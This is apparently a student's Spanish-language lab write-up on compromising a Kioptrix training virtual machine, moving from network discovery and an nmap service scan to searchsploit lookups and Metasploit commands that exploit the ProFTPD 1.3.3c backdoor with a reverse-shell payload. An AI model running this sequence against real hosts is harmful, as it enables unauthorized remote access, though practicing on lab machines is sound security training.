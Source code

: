 # Cómo he vulnerando la máquina Kioptix 

### Primero hice un reconicimiento de la red en busca de la IP de la máquina virtual (siendo que únicamente conozco la MAC y la red padre):

sudo netdiscover

nmap -sn 10.0.0.0/19

### Obtengo la IP de la máquina a atacar:

10.0.8.6

### Seguidamente hice un nmap -sV en busqueda de puertos abiertos junto al servicio que usa y su versión:
```
ismael@ismael-VirtualBox:~/Escritorio$ nmap -sV 10.0.8.6
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-18 15:14 CET
Nmap scan report for 10.0.8.6
Host is up (0.00066s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.70 seconds
```
### Analizo con metasploit los servicios de la máquina atacada (solo mostraré los outputs más interesantes)
```
searchsploit ProFTPD 1.3.3c

ProFTPd 1.3.3c - Compromised Source Backdoor Remote Code Execution                                             | linux/remote/15662.txt
ProFTPd-1.3.3c - Backdoor Command Execution (Metasploit)                                                       | linux/remote/16921.rb
```
```
searchsploit ssh 7.2p2

OpenSSH 7.2 - Denial of Service                                                                                        | linux/dos/40888.py
OpenSSH 7.2p2 - Username Enumeration                                                                                   | linux/remote/40136.py
```
```
searchsploit apache 2.4.18

Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + Scanner                                                      | php/remote/29316.py
Apache 2.4.17 < 2.4.38 - 'apache2ctl graceful' 'logrotate' Local Privilege Escalation                                  
| linux/local/46676.php
Apache Xerces-C XML Parser < 3.1.2 - Denial of Service (PoC)                                                           | linux/dos/36906.txt
```
### Aparentemente la forma más sencilla de vulnerar la máquina es mediante el exploit de reverse console del protocolo ProFTPD versión 1.3.3c, usando el exploit unix/ftp/proftpd_133c_backdoor con la payload genérica de reverse console payload/cmd/unix/reverse

```
msfconsole
search ProFTPD 1.3.3c
use 0
show options
set RHOSTS 10.0.8.6
show payloads
set PAYLOAD cmd/unix/reverse
set LHOST 10.0.2.15
show options
run
```
### (La demonstración de que realmente obtuve acceso a la máquina está junto a este fichero)
